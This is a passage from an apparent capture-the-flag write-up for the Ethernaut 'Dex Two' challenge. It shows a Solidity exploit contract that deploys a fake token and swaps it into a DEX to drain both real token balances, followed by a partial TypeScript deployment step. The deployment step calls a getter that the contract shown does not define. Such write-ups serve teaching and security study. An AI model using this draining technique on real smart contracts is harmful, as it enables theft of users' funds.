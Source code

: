 ```solidity
}

contract DexTwoExploit {
    address public dex;
    address public token1;
    address public token2;
    address public maliciousToken;
    address public owner;

    constructor(address _dex) {
        dex = _dex;
        owner = msg.sender;
        token1 = IDexTwo(dex).token1();
        token2 = IDexTwo(dex).token2();
        
        // Deploy our malicious token
        maliciousToken = address(new MaliciousToken());
    }

    function exploit() external {
        require(msg.sender == owner, "Not the owner");
        
        MaliciousToken mal = MaliciousToken(maliciousToken);
        
        // Setup: Transfer 1 malicious token to DexTwo
        mal.transfer(dex, 1);
        
        // Approve DexTwo to spend our malicious tokens
        mal.approve(dex, type(uint256).max);
        
        // Drain token1
        // Swap 1 malicious for (1 * 100) / 1 = 100 token1
        IDexTwo(dex).swap(maliciousToken, token1, 1);
        
        // Drain token2
        // Swap 2 malicious for (2 * 100) / 2 = 100 token2
        IDexTwo(dex).swap(maliciousToken, token2, 2);
    }
}
```

### How It Works - Step by Step

1. **Contract Deployment:**
   ```typescript
   // Deploy the exploit contract
   const dexTwoExploit = await deploy("DexTwoExploit", [dexTwoAddress]);
   
   // The exploit automatically deploys a malicious token in its constructor
   const maliciousTokenAddress = await dexTwoExploit.getMaliciousToken();
   ```
